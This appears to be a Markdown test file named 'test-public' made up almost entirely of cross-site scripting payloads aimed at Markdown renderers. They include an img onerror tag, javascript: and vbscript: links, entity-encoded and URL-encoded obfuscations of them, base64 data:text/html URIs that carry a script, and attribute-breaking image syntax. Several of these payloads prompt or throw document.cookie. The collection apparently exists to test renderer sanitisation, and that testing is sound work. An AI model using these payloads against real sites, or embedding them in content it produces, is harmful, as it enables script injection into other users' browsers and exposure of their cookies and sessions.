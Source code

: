 # test-public
<img src=x onerror=alert(2)>

[a](javascript:prompt(document.cookie))
[a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))
![a](javascript:prompt(document.cookie))\
<javascript:prompt(document.cookie)>
<&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)\
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
![a'"`onerror=prompt(document.cookie)](x)\
[citelol]: (javascript:prompt(document.cookie))
[notmalicious](javascript:window.onerror=alert;throw%20document.cookie)
[test](javascript://%0d%0aprompt(1))
[test](javascript://%0d%0aprompt(1);com)
[notmalicious](javascript:window.onerror=alert;throw%20document.cookie)
[notmalicious](javascript://%0d%0awindow.onerror=alert;throw%20document.cookie)
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[clickme](vbscript:alert(document.domain))

[a](javascript:this;alert(1))
[a](javascript:this;alert(1&#41;)
[a](javascript&#58this;alert(1&#41;)
[a](Javas&#99;ript:alert(1&#41;)
[a](Javas%26%2399;ript:alert(1&#41;)
[a](javascript:alert&#65534;(1&#41;)
[a](javascript:confirm(1)
[a](javascript://www.google.com%0Aprompt(1))
[a](javascript://%0d%0aconfirm(1);com)
[a](javascript:window.onerror=confirm;throw%201)
[a](javascript:alert(document.domain&#41;)
[a](javascript://www.google.com%0Aalert(1))
[a]('javascript:alert("1")')
[a](JaVaScRiPt:alert(1))
![a](https://www.google.com/image.png"onload="alert(1))
![a]("onerror="alert(1))
</http://<?php\><\h1\><script:script>confirm(2)
